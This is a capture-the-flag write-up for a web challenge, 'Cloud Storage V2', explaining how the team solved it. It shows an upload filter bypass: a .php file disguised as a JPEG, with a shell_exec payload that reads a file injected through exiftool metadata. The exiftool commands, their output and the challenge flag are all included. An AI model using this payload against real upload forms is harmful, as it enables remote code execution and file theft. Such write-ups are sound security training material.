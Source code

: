 ```yaml
---
title: "Cloud Storage V2 [WEB]"
categories: CodeCombat2023
permalink: /ctfs/codecombat2023/cloudstoragev2
---
```


Local File Inclusion lead to Remote Code Execution via PHP Injection.

## 📁 Challenge Description
>I've upgraded the upload system to a new one. You may no longer exploit it now!
>
>`http://cloudstorage.sibersiaga2023.myctf.io/`
>
>flag is in `/home/flag.txt`
>
>Flag format: `sibersiaga{md5hash}`

55.56 points, 9 solves

## 🚩 Solution
The challenge presents a slightly improved security for the file upload functionality on the website. The way it validates if an image file is safe to be uploaded is incomplete and can be bypassed easily. It does check whether it is an image by looking the file signatures but it doesn't check using the file extension.

Hence, we can start by using a cute penguin image `penguin.jpeg`.

[[image]]

Using `file penguin.jpeg` to check the file type.

[[image]]

Change the file extension from `penguin.jpeg` to `penguin.php`.

[[image]]

Check the file type again. We can see that the file type remain unchanged despite the file extension has been modified.

[[image]]

Upload it to the website and check for vulnerabilities.

[[image]]

We concluded that this challenge website is vulnerable to PHP injection attack. We can inject a PHP shellcode stating the location of the flag (given by the challenge) to execute remotely and retrieve information from the website.

Now, inject a super duper simple PHP shell execution payload into the `penguin.php` using `exiftool`.

```
$ exiftool -DocumentName='<?php echo shell_exec("cat /home/flag.txt") ?>' > penguin.php
  1 image files updated

$ exiftool penguin.php
Exiftool Version Number          : 12.63
File Name                        : penguin.php
Directory                        : .
File Size                        : 3.5 kB
File Modification Date/Time      : 2023:08:16 04:28:12-04:00
File Access Date/Time            : 2023:08:16 04:28:12-04:00
File Inode Change Date/Time      : 2023:08:16 04:28:12-04:00
File Permissions                 : -rw------
File Type                        : JPEG
File Type Extension              : jpg
MIME Type                        : image/jpeg
Exif Byte Order                  : Big-endian (Motorola, MM)
Document Name                    : <?php echo shell_exec("cat /home/flag.txt") ?>
X Resolution                     : 72
Y Resolution                     : 72
Resolution Unit                  : inches
Y Cb Cr Positioning              : Centered
Image Width                      : 183
Image Height                     : 276
Encoding Process                 : Baseline DCT, Huffman Coding
Bits Per Sample                  : 8
Color Components                 : 3
Y Cb Cr Sub Sampling             : YCbCr4:2:0 (2 2)
Image Size                       : 183x276
Megapixels                       : 0.051
```

{% capture notice-2 %}
💡 **NOTE**: We tried to inject using `-Note=` and `-Comment=` metadata parameters but it does not give any results. However, we ended up using `-DocumentName=` for the attack and works. In our opinions, we think that any parameters will give the same results just the procedure of modifying the image file is incorrect.
{% endcapture %}

<div class="notice--info">{{ notice-2 | markdownify }}</div>

Upload the malicious file and the flag is revealed.

[[image]]

***FLAG***: `sibersiaga{9c44f131b9d72f89d9a1c8520c42468d}`
